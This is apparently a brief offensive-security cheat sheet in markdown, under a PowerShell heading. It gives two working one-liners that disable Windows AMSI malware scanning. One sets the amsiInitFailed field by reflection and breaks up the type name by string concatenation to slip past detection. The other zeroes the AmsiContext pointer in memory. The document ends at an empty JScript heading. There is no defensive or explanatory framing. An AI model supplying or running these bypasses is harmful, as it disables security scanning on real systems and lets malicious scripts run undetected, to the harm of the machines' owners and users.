 # Powershell 
<br>

### Disables AMSI.  Have to trick the AMSI bypass with string concatination 
<br>

``` powershell
$fields = [Ref].Assembly.GetType('System.Management'+'.Automation.Amsi'+'Utils').GetField('amsiInitFailed','NonPublic,Static')
$fields.SetValue($null,$true)

```
<br>

### Disable AMSI with AmsiContext rewrite to 0000  
<br>

``` powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

```





# JSCRIPT
